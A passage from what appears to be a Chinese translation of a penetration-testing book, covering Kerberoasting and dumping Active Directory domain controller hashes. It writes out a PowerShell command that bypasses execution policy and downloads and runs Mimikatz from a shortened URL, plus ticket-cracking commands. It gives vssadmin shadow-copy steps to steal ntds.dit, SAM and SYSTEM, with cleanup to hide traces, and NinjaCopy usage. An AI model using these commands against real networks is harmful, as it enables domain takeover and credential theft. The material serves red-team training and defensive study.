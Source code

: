 ![](../images/chapter_4/4-41.png)

如果成功的话，我们已经将一个或多个不同的 Kerberos 票证导入到受害者计算机的内存中。我们现在需要一种方法来提取票据。我们可以使用好工具 Mimikatz Kerberos 导出：
- powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2qx4kuH’); Invoke-Mimikatz -Command ’”““kerberos::list /export”””’

![](../images/chapter_4/4-42.png)

一旦我们导出这些票证，它们将仍会驻留在受害者的机器上。在我们开始破解它们之前，我们必须从它们的系统中下载它们。请记住，票据是用服务帐户的 NTLM 哈希加密的。所以，如果我们能猜到 NTLM 哈希，我们就可以读取票据，现在也知道服务帐户的密码。破解账户最简单的方法是使用一个名为 tgsrepcrack 的工具（JTR 和 Hashcat 也支持破解 Kerberoast，稍后我们将讨论）。使用 Kerberoast 破解票证：

- 使用 Kerberoast 来破解票据：
  - cd /opt/kerberoast
  - python tgsrepcrack.py [password wordlist ][kirbi ticketss - *.kirbi]

![](../images/chapter_4/4-43.png)

在这个例子中，服务帐户 csk-github 的密码是“p@ssw0rd!”

当然，Empire 有一个 PowerShell 模块为我们做所有需要做的事情。它位于 powershell/credentials/invoke_kerberoast 目录下（ https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ）。

你可以用 John the Ripper 甚至 Hashcat 来破解密码并输出结果。我以前在非常大的网络环境中运行 PowerShell 脚本时遇到过一些问题，因此，退一步的方法是使用 PowerShell 和 Mimikatz 将所有的票据都获取下来。

![](../images/chapter_4/4-44.png)

## 转储域控制器哈希

一旦我们获得了域管理访问权，从 DC 中提取所有哈希的老方法就是在域控制器上运行命令，并使用 Shadow Volume 或原始拷贝技术提取 ntds.dit 文件。

回顾磁盘卷影复制技术<br>
由于我们确实可以访问文件系统，并且可以作为攻击者在域控制器上运行命令，因此我们希望获取存储在 ntds.dit 文件中的所有域内哈希。不幸的是，该文件不断地被读和写，即使作为系统，我们也无法读取或复制该文件。幸运的是，我们可以利用名为 Volume Shadow Copy Service 磁盘复制服务（VSS）的 Windows 功能，该功能将创建磁盘的快照副本。然后我们可以从该副本中读取 Ntds.dit 文件将其获取出来。并将其从计算机上取消，这包括窃取 Ntds.dit、System、SAM 和 Boot Key  文件。最后，我们需要清理我们的行踪并删除磁盘拷贝：

- C:\vssadmin create shadow /for=C:
- copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SYSTEM.
- copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SAM.
- reg SAVE HKLM\SYSTEM c:\SYS
- vssadmin delete shadows /for= [/oldest | /all | /shadow=]

NinjaCopy

[Ninjacopy](http://bit.ly/2HpvKwj) 是另一个工具，一旦我们在域控制器上，就可以用来获取 Ntds.dit 文件。Ninjacopy “通过读取原始磁盘卷并分析 NTFS 结构，从 NTFS 分区磁盘复制文件。这将绕过文件 DACL（任意访问控制列表）、读取句柄锁和 SACL（系统访问控制列表）。但你必须是管理员才能运行这个脚本。这可用于读取通常锁定的系统文件，如 NTDS.dit 文件或注册表配置单元。”[http://bit.ly/2HpvKwj]

- Invoke-NinjaCopy -Path “c:\windows\ntds\ntds.dit” -LocalDestination “c:\windows\temp\ntds.dit

DCSync

现在，我们已经回顾了从 DC 提取哈希的老方法，这些方法要求你在 DC 上运行系统命令，并且通常需要在该计算机上删除一些文件，让我们继续讨论新方法。最近，由 Benjamindelpy 和 Vincent Le Toux 编写的 DCSync 引入并改变了从域控制器转储哈希的玩法。DCSync 的概念是它模拟域控制器来请求该域中用户的所有哈希。这意味着，只要你有权限，就不需要运行任何域控制器上的命令，也不必删除 DC 上的任何文件。

